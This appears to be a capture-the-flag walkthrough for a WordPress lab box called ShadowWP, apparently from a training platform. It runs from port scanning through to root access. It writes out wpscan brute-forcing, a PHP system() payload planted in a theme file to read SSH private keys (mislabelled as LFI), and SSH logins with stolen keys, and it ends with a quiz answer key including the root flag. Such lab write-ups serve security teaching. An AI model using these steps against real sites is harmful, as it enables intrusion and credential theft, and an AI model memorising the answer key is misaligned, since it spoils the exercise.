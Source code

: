 
# 🧠 ShadowWP – CTF Walkthrough  
**Difficulty:** Medium  
**Author:** MrgBells  
**Platform:** TryHackMe  
**Objective:** Gain root access through a chain of WordPress misconfigurations, weak credentials, and SSH key exploitation.

---

## 🛰️ Step 1 – Reconnaissance  
**Goal:** Discover open ports and services.

- Run full port scan:
  ```bash
  nmap -sV -sC -p- <target-ip>
  ```
- Expected output:
  - Port 22: SSH
  - Port 80: HTTP (WordPress site)

🧩 **Hint:** Look closely at port 80 for web enumeration.

---

## 🌐 Step 2 – Enumerate WordPress  
**Goal:** Discover valid WordPress usernames and passwords.

- Enumerate users:
  ```bash
  wpscan --url http://<target-ip> --enumerate u
  ```
- Brute-force the password:
  ```bash
  wpscan --url http://<target-ip> --username abel --passwords /usr/share/wordlists/rockyou.txt
  ```
- Login to WordPress dashboard:  
  [http://<target-ip>/wp-login.php](http://<target-ip>/wp-login.php)

🧩 **Hint:** After login, go to Appearance → Theme Editor → edit `404.php`.

---

## 📂 Step 3 – Exploit LFI to Steal SSH Key  
**Goal:** Read the low-privileged user’s private SSH key via file inclusion.

- Inject this code into `404.php` in the WordPress theme:
  ```php
  <?php system('cat /home/abel/.ssh/id_rsa'); ?>
  ```
- Visit:
  ```url
  http://<target-ip>/index.php?page_id=404
  ```
- Copy the key and save it as `id_rsa`:
  ```bash
  chmod 600 id_rsa
  ssh -i id_rsa abel@<target-ip>
  ```

🧩 **Hint:** Try default path `/home/abel/.ssh/id_rsa`.

---

## 🧾 Step 4 – Find the Passphrase  
**Goal:** Get the passphrase for the root key.

- Once logged in as `abel`, check the home directory:
  ```bash
  ls /home/abel
  cat flag.txt       # First user flag
  cat readme.txt     # Contains the root key passphrase
  ```

🧩 **Hint:** Save the passphrase for next step.

---

## 🔑 Step 5 – SSH as Root  
**Goal:** Use the root SSH key with the passphrase to log in.

- If accessible via LFI, extract `/root/.ssh/id_rsa` the same way.
- Save it as `id_rsa_root` and:
  ```bash
  chmod 600 id_rsa_root
  ssh -i id_rsa_root root@<target-ip>
  ```
- Enter the passphrase when prompted (from `readme.txt`).

🧩 **Hint:** If prompted for passphrase, use `ssh-add`:
  ```bash
  eval "$(ssh-agent)"
  ssh-add id_rsa_root
  ```

---

## 🏁 Step 6 – Capture the Root Flag  
**Goal:** Prove full system compromise.

- Once logged in as root:
  ```bash
  cat /root/root.txt
  ```

🎉 **Congratulations! You have rooted ShadowWP! 🎉**

---

## 🧩 Sample CTF Questions

1. **How many open ports are exposed on the box?**  
   ➤ *Answer: 2*

2. **How many `.txt` files are found in abel's home directory?**  
   ➤ *Answer: 2*

3. **What is the final root flag?**  
   ➤ *Answer: congratulations you have rooted mrgbells box*

---

## 🔁 Summary Table  

| Phase               | Goal                             | Tools/Commands                                |
|--------------------|----------------------------------|-----------------------------------------------|
| Recon              | Find open ports                  | `nmap -sV -sC -p-`                             |
| WordPress Enum     | Find user + password             | `wpscan`                                       |
| LFI Exploit        | Steal SSH key                    | PHP payload in `404.php`                      |
| Low Priv Access    | SSH into server                  | `ssh -i id_rsa abel@<ip>`                     |
| Priv Escalation    | Read passphrase + use root key   | `ssh -i id_rsa_root root@<ip>`                |
| Root Flag          | Get final flag                   | `cat /root/root.txt`                          |

---

> 💡 **Note:** Always follow ethical hacking practices. This lab is for educational purposes only.
